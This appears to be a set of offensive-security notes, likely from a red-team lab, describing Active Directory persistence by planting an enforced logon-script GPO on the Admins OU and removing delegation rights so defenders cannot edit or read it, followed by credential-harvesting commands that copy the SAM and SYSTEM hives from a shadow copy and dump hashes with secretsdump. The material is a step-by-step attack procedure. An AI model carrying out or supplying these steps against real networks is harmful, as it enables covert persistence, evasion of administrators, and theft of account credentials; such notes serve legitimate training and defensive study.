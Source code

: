 GPO Creation

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

    In your runas-spawned terminal, type MMC and press enter.
    Click on File->Add/Remove Snap-in...
    Select the Group Policy Management snap-in and click Add
    Click OK

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as username - persisting GPO:

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:

Let's get back to our Group Policy Management Editor:

    Under User Configuration, expand Policies->Windows Settings.
    Select Scripts (Logon/Logoff).
    Right-click on Logon->Properties
    Select the Scripts tab.
    Click Add->Browse.

Let's navigate to where we stored our Batch and binary files, Select your Batch file as the script and click Open and OK. Click Apply and OK.

Go back to your MMC windows, click on your policy and then click on Delegation:

By default, all administrators have the ability to edit GPOs. Let's remove these permissions:

    Right-Click on ENTERPRISE DOMAIN CONTROLLERS and select Edit settings, delete, modify security.
    Click on all other groups (except Authenticated Users) and click Remove.

Click on Advanced and remove the Created Owner from the permissions:

We could replace Authenticated Users with Domain Computers to ensure that computers can still read and apply the policy, but prevent any user from reading the policy.

    Click Add.
    Type Domain Computers, click Check Names and then OK.
    Select Read permissions and click OK.
    Click on Authenticated Users and click Remove.

Right after you perform these steps, you will get an error that you can no longer read your own policy:

# Credential harvesting

# Dump local hashes
## One way 
*cmd.exe prompt with administrator privileges*
`wmic shadowcopy call create Volume='C:\'`*wmic command to create a copy shadow of C: drive*
`vssadmin list shadows`*Listing the Available Shadow Volumes*
`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam`
`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system` *Copying the SAM and SYSTEM file from the Shadow Volume*
`python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam -system /tmp/system LOCAL`*Check the hashes* 
